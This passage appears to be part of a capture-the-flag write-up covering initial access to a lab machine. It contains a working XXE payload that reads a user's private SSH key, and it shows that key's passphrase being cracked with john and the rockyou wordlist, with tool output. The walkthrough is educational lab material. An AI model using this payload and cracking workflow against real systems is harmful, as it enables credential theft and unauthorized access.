 
---

## Initial Access

### Barry's Private Key

- In the home page of the admin panel, there was a comment:

```html
<!-- Barry, you can now SSH in using your key!-->
```

- So, try to read Barry's Private Key using XXE:

```bash
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ELEMENT foo ANY >
<!ENTITY xxe SYSTEM "file:///home/barry/.ssh/id_rsa" >]>
<comment>
  <name>&xxe;</name>
  <author>DS</author>
  <com>Hi</com>
</comment>
```

- And we get the Private key successfully.


### Passphrase

- Save the `id_rsa`, change the permissions.
- But we need the passphrase!

```bash
$ nano id_rsa_barry

$ chmod 600 id_rsa_barry

$ ssh -i id_rsa_barry barry@10.10.230.120
Enter passphrase for key 'id_rsa_barry':
```

- Use john to find the passphrase:

```bash
$ locate ssh2john
/usr/share/john/ssh2john.py

$ /usr/share/john/ssh2john.py 
Usage: /usr/share/john/ssh2john.py <RSA/DSA/EC/OpenSSH private key file(s)>

$ john forjohn.txt --format="SSH" --wordlist=/usr/share/wordlists/rockyou.txt 
Using default input encoding: UTF-8
Loaded 1 password hash (SSH [RSA/DSA/EC/OPENSSH (SSH private keys) 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Note: This format may emit false positives, so it will keep trying even after
finding a possible candidate.
Press 'q' or Ctrl-C to abort, almost any other key for status
REDACTED       (id_rsa_barry)
1g 0:00:00:07 68.71% (ETA: 16:14:08) 0.1420g/s 1399Kp/s 1399Kc/s 1399KC/s babaygirl75
1g 0:00:00:08 82.15% (ETA: 16:14:07) 0.1191g/s 1402Kp/s 1402Kc/s 1402KC/s 84059932
Session aborted
```
